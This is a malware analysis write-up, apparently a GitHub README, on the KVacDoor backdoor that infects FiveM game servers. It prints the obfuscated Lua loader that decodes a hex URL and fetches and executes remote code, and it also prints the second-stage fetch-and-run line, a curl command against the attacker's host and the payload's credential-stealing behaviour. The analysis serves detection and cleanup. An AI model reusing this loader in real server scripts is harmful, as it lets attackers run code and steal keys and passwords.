 ## 1. Introduction
KVacDoor is a really used FiveM and Garry's Mod server manager, boasting features such as 

> **Lua Script**<br>
The scripting system allows you or the KVacDoor staff to quickly run lua code on your servers.

> **Smart Lua**<br>
Inject your lua codes discreetly in one click in one of your addons with the Smart Lua tool.

The panel's website: https://kvacdoor.cz

Turns out that it's also a backdoor, which uses this code, injected into the server-side of a fivem-script to plant itself inside the server.
It is strongly recommended you read cipher's panel breakdown as the infection method kvac uses is almost identical - https://github.com/ericstolly/cipher/blob/main/chapters/chapter-1-payload.md
```
local Enchanced_Tabs = {
    Ench, Support, Host, Pairs,
    Realease, Callbacks, Source,
    Hosting, Event, PerformHttpRequest,
    assert, server, load, Spawn, materials
}

local random_char = {
    "68", "74", "74", "70", "73", "3a", "2f", "2f", "66", "69", "76", "65", "6d", "2e", "6b", "76",
    "61", "63", "2e", "63", "7a", "2f", "66", "2e", "70", "68", "70", "3f", "6b", "65", "79", "3d",
    "6f", "6a", "6f", "54", "4a", "5a", "57", "65", "50", "52", "6e", "50", "4b", "59", "55", "70", "41", "36", "7a", "34",
}

function str_utf8()
    _empt = ""
    for id,it in pairs(random_char) do
        _empt = _empt..it
    end
    return (_empt:gsub("..", function (cc)
        return string.char(tonumber(cc, 16))
        
    end))
end

Enchanced_Tabs[10](str_utf8(), function (e, d)
    local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
    if (d == nil) then return end
    s()
end)
```
## 2. Code analysis and finding the full payload
As we can see, that is almost the same code that is used by the cipher panel backdoor - 
In short the `random_char` table is a link, which gets interpreted by `str_utf8()`, and then gets run by the last function as an http request on the server, injecting the payload.
Running the code without the last codeblock (which if you look at the `Enchanced_Tabs` table is an http request) in any lua compiler (https://onecompiler.com/lua/42d7ex7dx)
and appending `print(str_utf8)` to it, so we can see what the encoded message is, gives us this link - https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4.

If we cURL the link using the `FXServer/PerformHttpRequest` user-agent, we'd get this:
```
PerformHttpRequest("https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b", function(a, b) if b == nil or b == "" then return end assert(load(b))() end, "POST")
```

You can verify on linux using this command:
`curl https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4 -A "FXServer/PerformHttpRequest"`

As we can see we get more lua code, if we extract the link <br> `https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b`

and translate it to text: <br> `https://fivem.kvac.cz/_/api.php?key=3Rj4lZeyvWJna3PizqOk`

and then cURL *this* link, we will get the payload:

[fivem-payload.lua](https://github.com/Martinator9001/kvac-backdoor/blob/main/fivem-payload.lua)

beautifying it a bit we get this

[fivem-beautified payload.lua](https://github.com/Martinator9001/kvac-backdoor/blob/main/fivem-beautified-payload.lua)


## 3. Payload explanation
The scripts steals player info like licenses, IPs, identifiers, and also reads the server .cfg, extracting API keys and the rcon password if you have one. <br>
It also overrides the `chatMessage` event and grants the resource the infected script was ran from permissions in the server.cfg - and therefore txAdmin. <br>


## 4. Post-infection measures
It is highly recommended to shutdown the server as soon as the backdoor is installed, as by default it doesn't inject itself outside the server (e.g. the OS) and only in the former 3 locations.
You should reset any API keys and other sensitive information you have put in your server.cfg (like steam API keys, rcon passwords)
Then you should reinstal; your chat script, deleting the malicious code from your resource and remove the command access granted in the last lines of the server.cfg.<br>
Unfortunately I can't help if the server's been manually accessed by an adversary after the backdoor was installed, as they could've injected code anywhere and it could be practically impossible to find. Your safest course of action is reinstalling the VPS the server was installed on and using a backup of your server. If you're willing to risk it you can search for suspicious HttpRequest using `grep` or VSCode's Explorer's find but the code can be obfuscated and it's very difficult to find then.
The lesson is - backups are your friend.

